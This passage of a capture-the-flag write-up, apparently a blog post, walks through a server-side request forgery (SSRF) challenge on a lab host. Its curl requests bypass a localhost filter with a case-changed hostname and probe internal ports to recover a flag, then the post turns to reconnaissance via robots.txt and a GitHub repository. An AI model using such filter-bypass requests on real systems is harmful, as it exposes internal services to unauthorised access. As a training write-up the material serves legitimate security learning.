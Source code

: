 <code>La ruta localhost no esta permitida por razones de seguridad. Que intentas hacer? :D</code>

It's telling us roughly that the localhost location can't be accessed for security reasons... is this some sort of anti-SSRF methodology?

{{< highlight bash >}}
$ curl "http://192.168.1.145/testsite.php?url=http://127.0.0.1" -w "\n"
{{< /highlight >}}

This doesn't work, let's try bypassing a possible anti-SSRF protocol...

{{< highlight bash >}}
$ curl "http://192.168.1.145/testsite.php?url=http://localhosT" -w "\n"
{{< /highlight >}}

This redirects us to localhost, so the anti-SSRF rule looks bypassed... Maybe let's try adding the ports we wrote down earlier?

{{< highlight bash >}}
$ curl "http://192.168.1.145/testsite.php?url=http://localhosT:443" -w "\n"
{{< /highlight >}}


Nothing

{{< highlight bash >}}
$ curl "http://192.168.1.145/testsite.php?url=http://localhosT:1337" -w "\n"
{{< /highlight >}}


Bingo: <code>FLAG{SSRF_PARA_TOD@S_XD}</code>


Let's continue with the pwnage.


Remember the robots.txt file? Well, here are the contents:

{{< highlight bash >}}
# https://wp.geohome.com
{{< /highlight >}}


Let's add that to our hosts file and enter the website

![GeoSite](/images/ctfs/schneidelec/geosite.png)


Good, let's find something in here of our interest.


We find a <a href="https://github.com/geohome-dev/">GitHub profile link</a> at the bottom of the page alongside a facebook one.


Let's try looking for the GitHub one... interesting, only 1 repo... let's access it:

Maybe enter the commits section?

![Commits](/images/ctfs/schneidelec/commits.png)
